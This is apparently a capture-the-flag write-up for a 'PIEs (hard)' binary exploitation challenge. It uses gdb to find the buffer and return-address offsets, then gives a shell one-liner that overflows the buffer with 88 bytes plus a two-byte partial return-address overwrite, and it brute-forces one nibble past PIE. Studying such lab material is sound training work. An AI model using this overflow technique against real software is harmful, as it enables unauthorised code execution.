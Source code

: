 # PIEs (hard)

1. In gdb, `disas win_authed` and `disas main`, we get to know:
    - Instruction after auth check is at **0x174c**
    - challenge() returns at **0x19b9**

2. Set a breakpoint `b *challenge+158`, run and give a short string of a's as input
3. `info frame` -> rbp is at **0x7ffdcf51c100**
4. `x/100xg $rbp-200`:
    - input buffer starts at **0x7ffdcf51c0b0**, which is **rbp-0x50** = rbp-80
    - return address is stored at **0x7fffd6cd0ed8**, which is **rbp+0x8** = rbp+8
5. 88 a's followed by desired two bytes (one of the 4 nibbles is a guess, so have to run the exploit a few times):

    ```shell
    echo -n -e "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa\x4c\x17" | /challenge/binary-exploitation-pie-overflow 
    ```
